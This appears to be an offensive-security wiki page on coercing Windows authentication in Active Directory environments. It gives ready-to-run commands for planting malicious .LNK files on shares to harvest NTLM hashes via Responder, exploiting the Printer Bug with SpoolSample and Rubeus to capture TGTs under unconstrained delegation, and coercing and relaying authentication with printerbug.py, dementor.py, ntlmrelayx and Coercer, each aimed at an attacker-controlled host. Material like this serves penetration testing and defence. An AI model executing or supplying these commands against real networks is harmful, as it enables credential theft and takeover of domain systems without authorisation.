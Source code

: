 # Coercing Authentication

### Harvest NTLMv2/v1 Hashes with Write Access to Shares

The [following example](https://twitter.com/mpgn\_x64/status/1453018750253424643?ref\_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E0fe6e46bc61c94f27278793c3b0620a3c2ed5bd6%7Ctwcon%5Es1\_\&ref\_url=https%3A%2F%2Fcdn.iframe.ly%2Fo0HzCyi%3Fapp%3D1) demonstrates performing this attack with CrackMapExec, however, it can also be performed by crafting a custom `.LNK` file.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

### The Printer Bug&#x20;

If a machine that we have compromised is configured with [unconstrained delegation](../../../tactics/credential\_access/steal-or-forge-kerberos-tickets/delegation/unconstrained-delegation.md) we are able to capture any of the TGTs from machines/accounts that have authenticated to it. If we're able to obtain a TGT from a machine account, we can craft service tickets and obtain administrative access to it - this also works for domain controllers.&#x20;

It should be noted that in order to successfully exploit the printer bug, we must have already obtained a session as or valid domain user credentials.&#x20;

#### Enumerate Print Spooler Service

Enumerate Print Spooler service with ItWasAllADream:

```bash
# Enumerate Print Spooler with ItWasALlADream
docker run -it itwasalladream -u $username -p $password -d $domain $target -v

# Enumerate with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M spooler

# Enumerate Print Spooler with Impacket
python rpcdump.py @$target | egrep 'MS-RPRN|MS-PAR'

# SpoolerScan.ps1
.\SpoolerScan.ps1
```

#### Exploiting the Printer Bug with [SpoolSample.exe](https://github.com/leechristensen/SpoolSample)

1\. We first need to monitor for any new TGTs on the system that has unconstrained delegation configured. Rubeus provides us with the handy functionality to accomplish this:

```bash
.\Rubeus.exe monitor /targetuser:$machineaccount /interval:5 /nowrap
```

2\. We can then execute `SpoolSample.exe` on the host to coerce authentication:

```bash
.\SpoolSample.exe $target $attacker
```

3\. After running `SpoolSample.exe` we should then aobserve a TGT on the attacker controlled system.

#### Remotely Exploiting the Printer Bug

* [Dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py)
* [Printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

Alternatively, we can accomplish this same exploitation path remotely using Impacket's ntlmrelayx to relay the credentials:

```bash
# Exploiting the Printerbug with Dementor.py
dementor.py -d $domain -u $username -p $password $attackerip $targetfqdn

# Exploiting the Printerbug with Printerbug.py
python printerbug.py $domain/$username:$password@$targetfqdn $attackerip

# Relay the authentication attempt to the target server
 ntlmrelayx.py -smb2support -t smb://$targetx
```

### Trigger NTLM Authentication over HTTP

```bash
## https://twitter.com/n00py1/status/1481385989025280000?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
Invoke-WebRequest -UseDefaultCredentials
```

### Coercer

[Coercer](https://github.com/p0dalirius/Coercer) is a Python script which automagically attempt to coerce an arbitrary machine to an attacker controlled device in several ways.

```bash
# Basic use of Coercer.py
Coercer.py -d $domain -u $username -p $password --listener $attackerip --target $targetip
```

### References

{% embed url="https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack/" %}
